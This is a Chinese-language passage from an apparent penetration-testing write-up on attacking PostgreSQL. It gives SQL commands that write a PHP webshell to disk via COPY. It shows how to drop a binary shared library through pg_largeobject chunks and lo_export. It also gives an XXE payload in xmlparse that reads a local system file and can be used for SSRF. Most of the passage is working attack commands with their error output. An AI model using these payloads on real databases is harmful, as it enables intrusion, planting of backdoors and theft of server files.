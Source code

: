 ### 写
写文件分为两个部分，一个是写 webshell，另外一个是写二进制文件。   
  
写 webshell 十分简单，利用：   
  
```
COPY (select '<?php phpinfo();?>') to '/tmp/1.php';
```
    
即可写一个文件。   
    
根据疯狗的这一篇帖子：   
    
http://zone.wooyun.org/content/4971  
  
，说是可以利用PostgreSQL 的“大对象数据”来写，但是我测试是失败的。报错如下：   
```
ERROR:  pg_largeobject entry for OID 2008, page 0 has invalid data field size 2378
```
    
用 COPY 语句，format 为 binary 的情况下来写文件的话，会被 PostgreSQL 加上几个字节，导致不能识别为 ELF 文件。   
  
实际上，阅读官方文档可知，写的文件每一页不能超过 2KB，所以我们要把数据分段：   
  
```
SELECT lo_create(12345);
INSERT INTO pg_largeobject VALUES (12345, 0, decode('7f454c4...0000', 'hex'));
INSERT INTO pg_largeobject VALUES (12345, 1, decode('0000000...0000', 'hex'));
INSERT INTO pg_largeobject VALUES (12345, 2, decode('f604000...0000', 'hex'));
INSERT INTO pg_largeobject VALUES (12345, 3, decode('0000000...7400', 'hex'));
SELECT lo_export(12345, '/tmp/test.so');
SELECT lo_unlink(12345);
```
  
其中每一段都要小于等于 2KB，这样就可以成功写入：   
  
![pi6](20161018_02_pic_006.png)    
  
## XXE
老版本的 PostgreSQL 存在 XXE 漏洞。  
  
具体可以看这篇文章：PostgreSQL (all) error-based XXE 0day。   
  
大体就是执行语句：   
```
select xmlparse(document '<?xml version="1.0" standalone="yes"?><!DOCTYPE content [ <!ENTITY abc SYSTEM "/etc/network/if-up.d/mountnfs">]><content>&abc;</content>');
```
  
可以获取一些数据，也可以进行 SSRF 等。  
  
不过因为年代很久，可能很多都修复过了，所以作为一个保留方案，可能会有意外的惊喜。   
  
## 参考
1\. PostgreSQL SQL Injection Cheat Sheet  
http://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet  
  
